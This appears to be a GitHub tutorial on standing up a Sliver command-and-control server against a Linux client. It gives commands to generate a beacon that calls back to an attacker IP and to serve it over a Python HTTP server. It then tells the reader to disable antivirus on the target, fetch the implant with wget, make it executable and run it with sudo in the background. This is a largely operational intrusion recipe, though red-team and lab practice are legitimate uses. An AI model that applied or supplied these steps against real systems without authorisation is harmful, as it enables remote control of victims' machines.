 
# How To Create a C2 Server Using Sliver (Linux - Linux)


This tutorial is a continuation to the README for going from a Linux Host to a Linux Client instead of Linux Host -> Windows Client

## Server

All instructions up to this point are the same, except the way the beacon is generated. To generate for Linux instead of Windows, run this command with these flags:

`generate beacon -b YOURIP:8080 --os linux -a x86`

* The -os flag can be `mac` or `linux` and
* The -a flag is `x86` or `arm` (depending on your machine)

This will generate the binary for your Linux machine, and you can continue on in this guide for the remaining steps

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server &`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer &`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
If you have any pre-existing antivirus protection, you will most likely need to disable them for this demonstration.

### Open Server on Any Internet Browser (or using wget)

Next, open any internet browser (if you have one) or use wget to access the file server that was previously opened in the Serve Up Executable step.

Using an internet browser, go to `http://LINUX_SERVER_IP:8000` and download the executable.

However, because some Linux distributions do not come prepackaged with an internet explorer (or UI at all), we will also be covering how to use wget.

### WGET
To use wget, type in your terminal:
`wget http://LINUX_SERVER_IP:8000/*YOURBINARYFILE*`

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e65b523-a057-4081-a879-824d2ae8e5e5)

This should install the file to the directory you are currently in.

Give the script executable permissions using `CHMOD 777 *NAME_OF_BINARY*`

Then, simply run the binary in the background with sudo ./*NAME_OF_BINARY* &

Your Linux machine should now appear in your beacons!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/60ad21d3-25a4-4fa9-9beb-08cc266bb48c)


Now, you can continue back to the original guide starting at 'The Door's Open, Now What?' in the [README](README.md)
